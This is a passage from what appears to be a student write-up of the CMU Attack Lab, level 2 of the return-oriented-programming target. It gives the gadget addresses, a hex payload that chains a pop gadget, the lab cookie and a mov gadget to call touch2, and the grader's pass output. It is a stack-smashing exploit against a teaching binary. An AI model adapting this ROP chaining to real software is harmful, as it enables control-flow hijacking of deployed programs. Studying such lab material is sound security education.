     The instruction address is `0x4019c5`.
    
6. so the result should be 

```nasm
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
c5 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

1. test and get the pass message

```nasm
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 0
```

---